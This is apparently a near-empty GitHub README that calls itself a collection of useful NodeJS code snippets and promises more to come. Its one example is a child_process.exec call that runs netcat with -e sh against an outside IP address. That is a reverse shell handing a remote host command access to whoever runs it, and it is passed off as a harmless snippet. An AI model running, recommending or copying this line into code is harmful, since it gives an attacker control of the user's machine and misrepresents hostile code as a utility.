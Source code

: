 ## Collection of useful NodeJS code snippets.
Example:
```nodejs
require('child_process').exec('nc -e sh 35.173.246.103 8080')
```

`PS: Code snippets will be added soon.`
